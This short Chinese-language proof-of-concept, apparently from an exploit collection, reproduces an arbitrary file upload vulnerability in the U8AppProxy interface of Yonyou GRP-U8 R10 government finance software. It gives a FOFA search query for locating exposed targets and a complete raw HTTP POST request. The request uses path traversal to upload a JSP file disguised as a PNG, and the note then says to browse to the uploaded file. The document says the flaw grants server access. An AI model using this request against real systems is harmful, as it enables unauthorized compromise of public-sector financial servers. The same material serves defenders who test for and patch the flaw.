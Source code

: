 ## 0x00 漏洞介绍

    用友GRP-U8R10行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 U8AppProxy接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。
    
## 0x00 漏洞复现

   FOFA搜索title="用友GRP-U8行政事业内控管理软件"
   
   上传londly到跟目录
   
   ```
   POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=635F2271089E7A7E66F3F84824553DEE
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 01 Feb 2016 08:01:00 GMT
If-None-Match: W/"5732-1454313660000"
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
Content-Length: 194

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="londly.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
   ```
   
访问 http://xxxxxxxxxxxx/londly.jsp   
   
